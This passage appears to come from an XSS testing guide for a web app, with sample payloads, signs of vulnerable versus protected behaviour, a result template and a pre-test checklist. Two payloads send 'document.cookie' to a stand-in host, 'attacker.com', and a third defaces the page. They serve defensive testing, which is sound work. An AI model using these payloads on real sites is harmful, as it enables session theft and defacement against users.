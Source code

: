 #### Cookie Theft Simulation
```html
<script>
fetch('http://attacker.com/steal?cookie=' + document.cookie);
</script>
```

#### Session Hijacking Simulation
```html
<script>
new Image().src = 'http://attacker.com/log?cookie=' + document.cookie;
</script>
```

#### DOM Manipulation
```html
<script>
document.body.innerHTML = '<h1>Site Defaced by XSS</h1>';
</script>
```

## What to Look For During Testing

### ✅ Signs of Successful XSS:
- **Alert boxes appear**
- **Console shows executed JavaScript**
- **Network tab shows requests to external sites**
- **Page content changes unexpectedly**
- **Browser redirects to other sites**

### ✅ Signs of Good Protection:
- **Payloads appear as plain text**
- **HTML shows escaped entities** (`&lt;` instead of `<`)
- **Console shows "Content Security Policy" errors**
- **No JavaScript execution**

## Documentation Template

For each test, document:

```
Test #: ___
Payload: _______________
Location: ______________
Result: ________________
Screenshot: ____________
```

## Step-by-Step Checklist

### Before Testing:
- [ ] Backend server running
- [ ] Frontend server running  
- [ ] Browser DevTools open
- [ ] Test credentials ready
